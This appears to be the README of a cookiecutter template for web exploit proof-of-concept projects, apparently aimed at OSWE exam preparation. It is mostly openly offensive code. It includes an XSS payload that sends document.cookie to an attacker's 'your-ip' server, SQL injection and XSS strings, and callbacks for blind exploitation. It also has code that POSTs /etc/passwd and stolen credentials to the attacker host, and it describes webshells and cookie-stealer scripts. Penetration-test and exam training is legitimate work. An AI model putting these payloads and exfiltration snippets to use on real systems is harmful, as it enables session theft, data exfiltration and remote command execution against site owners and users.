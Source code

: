 # {{ cookiecutter.project_name }}

**Target URL:** {{ cookiecutter.target_url }}

## Quick Start

```bash
# 1. Setup environment
make dev

# 2. Start callback server (terminal 1)
uv run {{ cookiecutter.project_slug }} --server

# 3. Run exploit (terminal 2)
uv run {{ cookiecutter.project_slug }} -t http://target.com
```

## Writing Your Exploit

Edit `src/{{ cookiecutter.project_slug }}/exploit.py`:

```python
from {{ cookiecutter.project_slug }}.utils.output import out

def run(args):
    target = args.target.rstrip('/')

    out.info("Testing target...")
    resp = requests.get(f"{target}/vulnerable-endpoint", verify=False)

    if "vulnerable" in resp.text:
        out.success("Target is vulnerable!")

        # Trigger callback to your server
        requests.get("http://your-ip:8000/success")
    else:
        out.error("Not vulnerable")
```

## Utilities Available

### Colored Output
```python
from {{ cookiecutter.project_slug }}.utils.output import out

out.success("Exploited!")
out.error("Failed")
out.info("Trying...")
out.warning("Slow connection")
```

### Encoding/Decoding
```python
from {{ cookiecutter.project_slug }}.utils.encoding import base64_encode, url_encode

payload = base64_encode("admin' OR '1'='1")
encoded = url_encode("<script>alert(1)</script>")
```

### Timing Utilities
```python
from {{ cookiecutter.project_slug }}.utils.timing import time_ms, identify_timestamp, epoch_range

# Generate timestamp
token = time_ms()

# Identify unknown timestamp
info = identify_timestamp("1735689600000")
print(info['type'])  # epoch_milliseconds
print(info['date'])  # 2025-01-01 00:00:00

# Generate epoch range - now accepts epoch timestamps directly!
timestamps = epoch_range(1735689600, 1735776000, step_minutes=60)  # Using epoch
timestamps = epoch_range('2025-01-01 00:00:00', '2025-01-02 00:00:00')  # Using strings
```

### Process Execution
```python
from {{ cookiecutter.project_slug }}.utils.process import run

# Run binary
stdout, stderr, code = run("./exploit")

# With input
stdout, stderr, code = run("./vulnerable", input_data=payload)
```

## Server Usage

The built-in server (`servers/server.py`):
- **Serves payloads** from `payloads/` directory
- **Logs all requests** to `logs/server.ndjson`
- **CORS enabled** for XSS testing

### Start Server
```bash
# Via CLI (port 8000)
uv run {{ cookiecutter.project_slug }} --server

# Custom port
uv run {{ cookiecutter.project_slug }} --server --port 8080

# Direct execution
uv run python servers/server.py -p 8080
```

### Check Logs
```bash
# Watch in real-time
tail -f logs/server.ndjson | jq .

# Search for specific callbacks
grep "xss" logs/server.ndjson | jq .
```

### Apache Fallback (OSWE Exam)

If exam requires Apache2, use `apache_hooks.py` instead of `server_hooks.py`:

```python
# Change this:
# from utils.server_hooks import get_cookie

# To this:
from utils.apache_hooks import get_cookie

# Same API, reads Apache logs instead
cookie = get_cookie('/var/log/apache2/access.log', timeout=30)
```

No server needed - just reads Apache access logs directly!

## Included Payloads

### XSS (`payloads/xss/`)
- `examples.txt` - Copy-paste XSS payloads
- `steal-cookie.js` - Cookie stealer
- `steal-all.js` - Full data exfiltration

Example:
```html
<img src=x onerror="fetch('http://your-ip:8000/xss?c='+btoa(document.cookie))">
```

### Webshells (`payloads/shells/`)
- `cmd.jsp` - Java servers
- `cmd.aspx` - .NET/IIS servers
- `cmd.php` - PHP servers

All shells use same interface:
```python
resp = requests.get("http://target/shell.jsp?cmd=whoami")
print(resp.text)
```

## Common Code Snippets

### HTTP Requests
```python
import requests
requests.packages.urllib3.disable_warnings()  # Disable SSL warnings

session = requests.Session()
session.verify = False  # Skip SSL verification
session.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
```

### Blind Exploitation Callbacks
```python
# SQLi boolean-based
if "admin" in result:
    requests.get(f"http://your-ip:8000/sqli?char={char}&pos={pos}")

# Time-based confirmation
import time
start = time.time()
make_request()
if time.time() - start > 5:
    requests.get(f"http://your-ip:8000/blind?confirmed=true")
```

### Data Exfiltration
```python
# POST JSON data
stolen_data = {"username": "admin", "password": "found_it"}
requests.post('http://your-ip:8000/exfil', json=stolen_data)

# POST file contents
with open('/etc/passwd', 'r') as f:
    requests.post('http://your-ip:8000/file', data=f.read())
```

## CLI Options

```bash
{{ cookiecutter.project_slug }} --help

Options:
  -t, --target URL     Target URL (default: {{ cookiecutter.target_url }})
  -p, --proxy URL      HTTP proxy for requests
  --threads N          Number of threads
  -v, --verbose        Verbose output
  --server             Start callback server
  --port N             Server port (default: 8000)
```

## Files

- `src/{{ cookiecutter.project_slug }}/exploit.py` - **Main exploit code** (edit this!)
- `src/{{ cookiecutter.project_slug }}/utils/` - Helper utilities
- `servers/server.py` - HTTP callback server
- `payloads/` - XSS payloads and webshells
- `logs/server.ndjson` - Server request logs

---

Created: {{ cookiecutter.full_name }}
Template: [cookiecutter-poc-uv](https://github.com/kwkeefer/cookiecutter-poc-uv)